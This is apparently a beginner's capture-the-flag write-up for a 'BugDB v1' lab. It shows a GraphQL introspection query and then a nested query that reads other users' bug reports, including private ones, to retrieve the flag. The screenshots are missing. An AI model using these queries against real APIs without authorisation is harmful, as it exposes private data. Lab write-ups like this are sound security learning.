



BugDB v1

# BugDB v1
# Flags = 1


# Flag 0





Having no experince in graphql I started by finding out what graphql was.
 > GraphQL is a query language for APIs and a runtime for fulfilling those queries with your existing data. GraphQL provides a complete and understandable description of the data in your API, gives clients the power to ask for exactly what they need and nothing more, makes it easier to evolve APIs over time, and enables powerful developer tools.

Since I didn't know what fields are present I used the below query to get all the types and fields together using introspection


```
{
  __schema {
    types {
      name
      fields {
        name
        description
      }
    }
  }
}
```

This resulted in




After tinkering and googling I made a query that gave me the correct flag
```
query{
  user {
    edges {
      node {
        id
        username
        bugs {
          pageInfo {
            startCursor
            endCursor
          }
          edges {
            cursor
            node {
              id
              reporterId
              text
              private
              reporter {
                id
              }
            }
          }
        }
      }
    }
  }
}
```





